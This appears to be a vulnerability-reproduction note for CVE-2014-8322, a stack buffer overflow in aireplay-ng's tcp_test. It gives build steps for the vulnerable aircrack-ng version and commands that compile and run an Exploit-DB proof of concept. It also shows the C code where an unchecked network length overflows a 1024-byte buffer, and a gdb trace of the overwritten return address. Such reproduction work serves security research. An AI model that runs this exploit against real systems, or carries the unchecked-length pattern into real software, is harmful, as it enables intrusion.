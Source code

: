 # CVE-2014-8322

## Experiment Environment

Ubuntu 14.04 TLS

Kali

## INSTALL & Configuration

```
wget https://github.com/mudongliang/source-packages/raw/master/CVE-2014-8322/aircrack-ng-1.2-beta3.tar.gz

tar -xvf aircrack-ng-1.2-beta3.tar.gz
cd aircrack-ng-1.2-beta3

make
```

## Problems in Installation & Configuration

## How to trigger vulnerability

```
gcc -o exploit 35018.c
./exploit 1234 ls
./aircrack-ng-1.2-beta3/src/aireplay-ng -9 127.0.0.1:1234

(-9 is the same as --test for aireplay-ng )
```

## PoCs

[Aireplay-ng 1.2 beta3 - 'tcp_test' Length Parameter Stack Overflow](https://www.exploit-db.com/exploits/35018/)

## Vulnerability Patch

### Root Cause

```
aireplay-ng.c

struct net_hdr {
    uint8_t     nh_type;
    uint32_t    nh_len;
    uint8_t     nh_data[0];
};

......

int tcp_test(const char* ip_str, const short port)
{
    unsigned char packet[1024];

    ......

    caplen = read(sock, &nh, sizeof(nh));

    ......

    len = ntohl(nh.nh_len);

    ......

    caplen = read(sock, packet, len);

    ......
}
```

### Stack Trace

```
(gdb) info stack
#0  0x41414141 in ?? ()
#1  0x41414141 in ?? ()
#2  0x41414141 in ?? ()
```

## References

[1] [Multiple vulnerabilities identified on Aircrack-ng](https://www.obrela.com/blog/article/1/multiple-vulnerabilities-identified-aircrack-ng/)
